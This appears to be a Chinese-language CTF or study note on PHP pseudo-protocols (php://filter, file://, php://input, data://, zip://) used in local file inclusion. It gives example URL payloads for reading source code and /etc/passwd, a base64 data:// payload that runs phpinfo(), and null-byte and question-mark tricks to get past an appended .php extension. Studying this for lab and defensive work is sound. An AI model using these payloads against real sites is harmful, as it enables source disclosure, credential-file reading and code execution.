

# php伪协议

## 1. 种类总结

```protocal
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
## 2. 利用方法

### 2.1.php://filter

`php://filter`用于读取源码

```url
?page=php://filter/read=convert.base64-encode/resource=../flag.php
```

## 2.2.file://

用于访问本地文件系统，不受`allow_url_fopen`与`allow_url_include`的影响

即`file:// [文件的绝对路径和文件名]`

```url
?path=file:///var/www/html/flag.txt
```

## 2.3.php://input

`php://input` 可以访问请求的原始数据的只读流, 将`post`请求中的数据作为`PHP`代码执行

`php://input` 可以用来生成一句话

利用该方法，我们可以直接写入`php`文件，输入`file=php://input`，然后使用`burp`抓包，写入`php`代码


## 2.4.data://

利用`data://`伪协议可以直接达到执行`php`代码的效果，例如执行`phpinfo()`函数：


如果此处对特殊字符进行了过滤，我们还可以通过`base64`编码后再输入：

?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

## 2.5.zip://, bzip2://, zlib://
`zip://`, `bzip2://`, `zlib://` 均属于压缩流，可以访问压缩文件中的子文件，不需要指定后缀名

如果网站允许我们上传压缩文件，我们也可以将`php`文件压缩后进行上传，再通过`zip://`协议执行。（需要绝对路径）

以`DVWA`平台为例，我们将`phpinfo.php`文件进行压缩后上传



通过zip://协议执行zip压缩包中的phpinfo.php文件：


[参考链接之肖洋肖恩、](https://www.cnblogs.com/-mo-/p/11736445.html)


## 3.绕过方式

### 3.1. 绕过添加的.php和其他额外的文件结尾

通常通过 `php` 代码添加文件扩展名。这是它的样子：

```php
$file = $_GET['file'];
require($file . ".php");
```

#### 3.1.1 方法一 nullbyte %00

`php` 被添加到文件名中，这意味着我们将无法找到我们正在寻找的文件。由于该文件 `/etc/passwd.php` 不存在。但是，如果我们将 `nullbyte` 添加到攻击字符串的末尾， `.php` 则不会考虑 。因此，我们添加到 `%00` 攻击字符串的末尾。

```url
http://example.com/page=../../../../../../etc/passwd%00
```

这种技术通常称为 `nullbyte` 技术，因为 `%00` 是 `nullbyte`。该技术仅适用于 `php 5.3` 以下的版本。所以要注意这一点。

#### 3.1.2 问号隔断

```url
http://example.com/page=../../../../../../etc/passwd?
```

